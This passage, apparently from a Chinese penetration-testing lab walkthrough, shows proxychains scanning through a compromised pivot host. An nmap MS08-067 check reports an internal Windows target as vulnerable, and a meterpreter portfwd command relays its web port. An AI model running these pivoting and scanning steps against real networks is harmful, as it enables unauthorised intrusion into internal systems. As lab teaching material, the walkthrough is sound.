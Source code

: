<pre class="brush:bash;toolbar:false" nodeIndex="91">
root@kali:~# proxychains nmap -sT -sV -Pn -n -p22,80,135,139,445 --script=smb-vuln-ms08-067.nse 7.7.7.20ProxyChains-3.1 (http://proxychains.sf.net)Starting Nmap 7.25BETA1 ( https://nmap.org )|S-chain|-<>-172.16.0.20:1080-<><>-7.7.7.20:445-<><>-OK
|S-chain|-<>-172.16.0.20:1080-<><>-7.7.7.20:80-<><>-OK
|S-chain|-<>-172.16.0.20:1080-<><>-7.7.7.20:135-<><>-OK
|S-chain|-<>-172.16.0.20:1080-<><>-7.7.7.20:22-<><>-OK
|S-chain|-<>-172.16.0.20:1080-<><>-7.7.7.20:139-<><>-OK
|S-chain|-<>-172.16.0.20:1080-<><>-7.7.7.20:22-<><>-OK
|S-chain|-<>-172.16.0.20:1080-<><>-7.7.7.20:135-<><>-OK
|S-chain|-<>-172.16.0.20:1080-<><>-7.7.7.20:139-<><>-OK
|S-chain|-<>-172.16.0.20:1080-<><>-7.7.7.20:445-<><>-OK
|S-chain|-<>-172.16.0.20:1080-<><>-7.7.7.20:139-<><>-OK
|S-chain|-<>-172.16.0.20:1080-<><>-7.7.7.20:135-<><>-OK
|S-chain|-<>-172.16.0.20:1080-<><>-7.7.7.20:445-<><>-OK
Nmap scan report for 7.7.7.20Host is up (0.17s latency).
PORT     STATE    SERVICE      VERSION
22/tcp   open     ssh          Bitvise WinSSHD 7.16 (FlowSsh 7.15; protocol 2.0)80/tcp   closed   http         Easy File Sharing Web Server httpd 6.9
135/tcp  open     msrpc        Microsoft Windows RPC
139/tcp  open     netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open     microsoft-ds Microsoft Windows 2003 or 2008 microsoft-ds
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_server_2003
Host script results:
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)|     State: VULNERABLE
|     IDs: CVE:CVE-2008-4250
|          The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2, 
|          Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary 
|          code via a crafted RPC request that triggers the overflow during path canonicalization.
| 
|     Disclosure date: 2008-10-23
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250|_      https://technet.microsoft.com/en-us/library/security/ms08-067.aspxService detection performed. Please report any incorrect results at https://nmap.org/submit/ .Nmap done: 1 IP address (1 host up) scanned in 12.51 seconds
root@kali:~#
</pre>
<p nodeIndex="92"><span nodeIndex="246">现在发现了7.7.7.20(JC)这台机器端口开放比较多,尝试找出JC的漏洞,操作如下: 首先看看JC的80端口运行了什么cms,但是Attacker的浏览器直接访问http://172.16.0.20会无法访问,因为Attacker的网段与JC 不在同一网段,此处有个要注意的内容:</span></p>
<p nodeIndex="93"><span nodeIndex="247">Attention:可以选择使用proxychains设置Attacker的浏览器的代理为Attacker的1080端口的socks4代理入口,也可通过在RD的meterpreter会 话中运行portfwd模块命令,portfwd命令如下:</span></p>
<pre class="brush:bash;toolbar:false" nodeIndex="94">
meterpreter > portfwd add -L 172.16.0.20 -l 2323 -p 80 -r 7.7.7.20[*] Local TCP relay created: 172.16.0.20:2323 <-> 7.7.7.20:80meterpreter >
meterpreter > portfwd listActive Port Forwards
====================
   Index  Local             Remote       Direction